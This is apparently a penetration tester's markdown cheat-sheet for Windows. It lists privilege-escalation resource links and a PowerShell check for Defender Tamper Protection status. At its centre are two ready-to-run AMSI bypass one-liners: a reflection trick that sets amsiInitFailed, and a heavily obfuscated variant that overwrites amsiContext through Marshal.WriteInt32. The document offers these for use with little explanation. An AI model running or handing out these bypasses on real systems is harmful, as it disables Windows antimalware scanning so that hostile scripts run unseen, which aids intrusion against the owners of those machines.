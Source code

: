 
### Checklists

#### Windows
- https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation
- https://swisskyrepo.github.io/InternalAllTheThings/
- https://www.thehacker.recipes/
- https://www.netexec.wiki/

## AMSI

```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```

```powersehll
$fjujQSw=$null;$bfky="$(('S'+'y'+'s'+'t'+'e'+'m').nOrMAlIze([ChAr](70*40/40)+[CHaR]([byte]0x6f)+[chAr](94+20)+[ChaR](109+62-62)+[ChAR](27+41)) -replace [chAr](92)+[CHaR]([BYTe]0x70)+[cHar](23+100)+[cHar]([byTe]0x4d)+[chAR]([bYtE]0x6e)+[cHar]([byte]0x7d)).$(('Mãnàg'+'ement').NOrmAliZE([CHAR]([BYTe]0x46)+[chAr](36+75)+[CHaR](114)+[cHAr](63+46)+[CHaR](17+51)) -replace [cHAR](41+51)+[ChAR](112*76/76)+[cHAr]([byTe]0x7b)+[cHar](77+13-13)+[chaR]([BYTe]0x6e)+[ChAR](125+9-9)).$([cHAR](65)+[CHaR]([BYte]0x75)+[CHAR](116+72-72)+[CHAR](67+44)+[chAR]([bytE]0x6d)+[chAr](97+9-9)+[Char](116*72/72)+[CHAr]([byte]0x69)+[Char]([byTe]0x6f)+[chaR]([Byte]0x6e)).$([CHAR]([BYte]0x41)+[char]([ByTe]0x6d)+[cHAr](115+39-39)+[CHAR]([Byte]0x69)+[cHaR](85*12/12)+[chAR]([byte]0x74)+[ChaR](105*12/12)+[ChaR]([BytE]0x6c)+[char](115))";$dgbiziuzftrzlf="+[cHaR]([byTE]0x6c)+[CHAr]([BYTE]0x70)+[chAr]([byte]0x7a)+[cHar]([bYtE]0x74)+[cHAR](105)+[ChAR](118+34-34)+[cHAR](101)+[CHAr](97)+[CHAR]([Byte]0x63)+[cHAR]([ByTE]0x65)+[CHaR](106)+[ChAR]([BYte]0x73)+[ChAR]([BYte]0x61)+[CHar](121+46-46)+[Char]([BYTe]0x61)+[CHaR](106)+[chAr]([Byte]0x67)+[cHAR](78+21)+[CHar](111*77/77)+[CHAr](91+17)+[CHAR](111+29-29)+[CHaR](1+106)+[ChAr](115+76-76)+[cHAR](92+19)+[char]([bYTe]0x65)+[cHar]([bytE]0x7a)+[CHAr](97*40/40)+[char]([bYTE]0x6d)+[cHaR](110*34/34)";[Threading.Thread]::Sleep(851);[Runtime.InteropServices.Marshal]::("$(('Wrìte'+'Înt32').NOrmalize([CHaR](51+19)+[Char](111)+[cHAr](114*43/43)+[cHaR](75+34)+[CHAR]([bYTE]0x44)) -replace [cHar](70+22)+[chAR]([bYtE]0x70)+[Char](108+15)+[chAr]([byTE]0x4d)+[ChaR](110)+[CHar](125*16/16))")([Ref].Assembly.GetType($bfky).GetField("$([CHAR]([bYtE]0x61)+[CHaR]([bYtE]0x6d)+[CHar]([byTe]0x73)+[ChaR]([bytE]0x69)+[chAR]([ByTE]0x43)+[CHAR](62+49)+[CHaR](110+108-108)+[chAr]([ByTe]0x74)+[chAR]([BYte]0x65)+[cHAR]([BYTE]0x78)+[char]([ByTE]0x74))",[Reflection.BindingFlags]"NonPublic,Static").GetValue($fjujQSw),0x32aaa0ce);  
```

#### Sites:
 - https://amsi.fail/
 - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters#disable-defender
 - https://practicalsecurityanalytics.com/new-amsi-bypass-using-clr-hooking/

## Windows Defender/AV

- Tamper Protection status:
	- If the output is `False`, Tamper Protection is enabled.
	-  If the output is `True`, Tamper Protection is disabled.
```powershell
(Get-MpPreference).DisableTamperProtection
```
